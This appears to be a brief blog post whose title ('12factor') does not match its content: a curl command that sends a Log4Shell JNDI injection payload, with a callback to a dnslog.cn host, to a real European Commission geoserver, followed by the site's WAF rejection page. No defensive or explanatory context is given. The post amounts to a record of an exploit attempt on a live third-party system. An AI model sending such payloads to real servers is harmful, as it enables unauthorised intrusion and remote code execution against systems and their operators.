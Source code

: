 ```yaml
---
layout: post
title:  "12factor"
date:   2021-12-09 13:11:00 +0200
categories: tor
---
```

curl https://urban.jrc.ec.europa.eu/geoserver -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}'
<html><head><title>Request Rejected</title></head><body>The requested URL was rejected. Please contact for more information jrc-waf[at]ec.europa.eu.<br><br>Your support ID is: 866684377438240381<br><br><a href='javascript:history.back();'>[Go Back]</a></body></html>(aoc)
